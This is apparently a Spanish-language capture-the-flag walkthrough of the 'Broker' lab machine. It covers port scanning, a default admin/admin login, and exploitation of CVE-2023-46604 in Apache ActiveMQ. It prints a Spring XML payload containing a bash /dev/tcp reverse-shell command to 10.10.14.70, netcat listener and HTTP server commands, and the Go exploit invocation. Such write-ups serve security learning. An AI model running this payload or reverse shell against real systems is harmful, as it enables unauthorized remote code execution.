





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Broker

`10.10.11.243 Ip`

## Realizar un escaner de puertos con nmap.

```
sudo nmap -sS -p- -Pn --open 10.10.11.243 -vvv
```

**Puertos descubiertos**&#x20;

```
───────┼───────────────────────────────────────────────────────────────────────────────────────
   1   │ PORT      STATE SERVICE     REASON
   2   │ 22/tcp    open  ssh         syn-ack ttl 63
   3   │ 80/tcp    open  http        syn-ack ttl 63
   4   │ 1883/tcp  open  mqtt        syn-ack ttl 63
   5   │ 5672/tcp  open  amqp        syn-ack ttl 63
   6   │ 8161/tcp  open  patrol-snmp syn-ack ttl 63
   7   │ 40157/tcp open  unknown     syn-ack ttl 63
   8   │ 61613/tcp open  unknown     syn-ack ttl 63
   9   │ 61614/tcp open  unknown     syn-ack ttl 63
  10   │ 61616/tcp open  unknown     syn-ack ttl 63
```

### Servicios de puertos

```
 sudo nmap -sV -p 22,80,1883,5672,8161,40157,61613,61614,61616  10.10.11.243 -vvv
```

```
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
40157/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

## Ir al navegador&#x20;

**Cuando fui al navegador a la direccion `10.10.11.243 Ip.`**

<figure><figcaption></figcaption></figure>

**Realice una pruba con contraseña y usuario basica: admin y admin y logre ingresar a este sitio.**

<figure><figcaption></figcaption></figure>

**Hasta ahora puedo saber que utiliza el servicio ActiveMQ ,tambien lo descubrimos con nmap.**

```
   1  | 61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
   2  │ 61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

¿Qu**e es ActiveMQ**?

Apache ActiveMQ® es el intermediario de mensajes basado en Java, multiprotocolo y de código abierto más popular. Admite protocolos estándar de la industria para que los usuarios obtengan los beneficios de las opciones del cliente en una amplia gama de idiomas y plataformas. Conéctese desde clientes escritos en JavaScript, C, C++, Python, .Net y más. Integre sus aplicaciones multiplataforma utilizando el omnipresente protocolo AMQP . Intercambie mensajes entre sus aplicaciones web usando STOMP sobre websockets. Administre sus dispositivos IoT usando MQTT . Respalde su infraestructura JMS existente y más allá. ActiveMQ ofrece el poder y la flexibilidad para admitir cualquier caso de uso de mensajería.



**Realizando una busqueda mas profunda descubri la vulnerabilidad CVE-2023-46604 de ActiveMQ con la version 5.15.15.**





**La vulnerabilidad de trata de una ejecucion remota.**

**En github existe el codigo para poder explotar esa vulnervilidad.**



**Se hace un git clone.**

<figure><figcaption></figcaption></figure>

**Se modifica el archivo poc-linux.xml.**

````xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <!-- This command will give a reverse shell on port 9001. HTML Entity Encoded. Change IP as needed -->
            <value>bash -i &#x3E;&#x26; /dev/tcp/10.10.14.70/9001 0&#x3E;&#x26;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>

```
````

**Iniciamos un servidor HTTP Python3 en segundo plano e iniciamos un oyente Netcat.**

```
python -m http.server 
nc -lvvp 9001
```

**Luego se ejecuta el codigo.**

```go
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.70:8000/poc-linux.xml
```

<figure><figcaption></figcaption></figure>

**Navegamode por los directorios hasta encontrar user.txt que tiene la primer bandera.**

<figure><figcaption></figcaption></figure>

